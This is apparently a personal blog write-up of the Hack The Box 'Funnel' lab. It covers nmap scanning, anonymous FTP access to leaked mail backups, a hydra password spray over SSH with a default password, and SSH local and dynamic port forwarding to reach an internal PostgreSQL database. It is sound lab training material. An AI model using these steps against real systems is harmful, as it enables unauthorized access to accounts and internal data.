 ```yaml
---
layout: single
title: "Funnel htb"
date: 2024-01-30
classes: wide
header:
  teaser: /assets/images/avatar.jpg
tags:
  - ftp
  - anonymous
  - ssh
  - tunneling
  - local port forwarding
  - ftp
  - anonymous
  - proxychains
  - hydra
---
```


## Introduction

This box mainly introduce a hands-on method called `tunneling`, which is a protocol that allows the movement data from one network to another, so that the attackers can communicate with internal network. 

**SSH tunneling**: A specific type of tunnel that uses SSH protocol to establish secure connection between two endpoints.

There are 3 types of ssh tunneling:

- **Local Port Forwarding**
Simply forward the traffic from the local port to the remote port
- **Remote Port Forwarding**
Reverse version of local port forwarding
- **Dynamic Port Forwarding**
it uses `SOCKS` protocol within the tunnel, within the tunnel, there is a socks proxy server that built on the local machine to route network traffic through the tunnel.

![Untitled](/assets/images/Funnel%20a4ccd42d04e446d68cd81e0742cd7241/Untitled.png)

## Info Collecting

```go
nmap -T4 -A -sV $ti
nmap -sC -sV $ti

-sC: perform default scripts
-sV: display the version info
-T4: agreesive mode, not stealthy
-A: a combination options, referred to agressive mode

```

![Untitled](/assets/images/Funnel%20a4ccd42d04e446d68cd81e0742cd7241/Untitled%201.png)

The red box frames the directory name that is available on the FTP server. 

> find there is a ftp server running on the server, then try anonymous login
> 

### FTP

```go
ftp <ftp_server_ip>
user: anonymous
password: anonymous
cd mail_backup
get <file_name>
```

> after login, download the leaked files from the anonymous account
> 

```go
echo "10.129.228.195 funnel.htb" | sudo tee -a /etc/hosts
```

```go
cat welcome_28112022 | grep -oE '[a-zA-Z0-9_.-]+@funnel\.htb'

-o means matching part of the content rather than the whole line
-E means using regex
[a-zA-Z0-9_.-]+ means multi(+) chars that matched in range of the square bracket
```

> get the initial password, trying to access by ssh
> 

### sed

```go
ssh $(sed -n 'np' accs)

- `np`: nth line
- `d`: Deletes the line(s) specified by the line number. For example, `4d` deletes the 4th line.
- `s/pattern/replacement/`: Substitutes `pattern` with `replacement` on the specified line(s). For example, `s/foo/bar/` replaces the first occurrence of "foo" with "bar" on the line(s).
- `/^pattern/p`: Prints the line(s) starting with `pattern`. For example, `/^Error/p` prints lines starting with "Error".
- `/pattern/d`: Deletes the line(s) containing `pattern`. For example, `/foo/d` deletes lines containing "foo".
```

> christine’s account still use the initial password, collecting the info in the ssh
> 

## Foothold

### ssh

```go
hydra -L usernames.txt -p 'funnel123#!#' {target_IP} ssh

ifconfig
netstat -ant
ps -ef | grep 

```

![Untitled](/assets/images/Funnel%20a4ccd42d04e446d68cd81e0742cd7241/Untitled%202.png)

> this container belongs to root, no privilege,
> 

use `ss -tl` command to display the networks sockets, connections, it is a powerful placement for older `netstat`

![Untitled](/assets/images/Funnel%20a4ccd42d04e446d68cd81e0742cd7241/Untitled%203.png)

### SS

```go
-t tcp connections
-l listening sockets
-a all open network sockets
-u udp connections
-s detailed socket statistics
-e extended socket info
```

## Tunneling

knowing that `postgresql` is open on port `5432`, but there is no `psql` command on target machine, so use ssh tunneling to forward traffic

```go
vul > ssh -L 7654:localhost:5432 christine@funnel.htb
```

```go
att > psql -h 127.0.0.1 -p 7654 -U christine
```

![Untitled](/assets/images/Funnel%20a4ccd42d04e446d68cd81e0742cd7241/Untitled%204.png)

### psql postgresql

```go
\l list all databases
\c switch database
\dt list all tables in this database
select * from <table_name>
```

![Untitled](/assets/images/Funnel%20a4ccd42d04e446d68cd81e0742cd7241/Untitled%205.png)

## Appendix

using the  dynamic ssh tunnel

```go
ssh -D 1234 christine@$ti

echo socks5 127.0.0.1 1234 | sudo tee -a /etc/proxychains4.conf

proxychains psql -U chrinstine -h localhost -p 5432
```

![Untitled](/assets/images/Funnel%20a4ccd42d04e446d68cd81e0742cd7241/Untitled%206.png)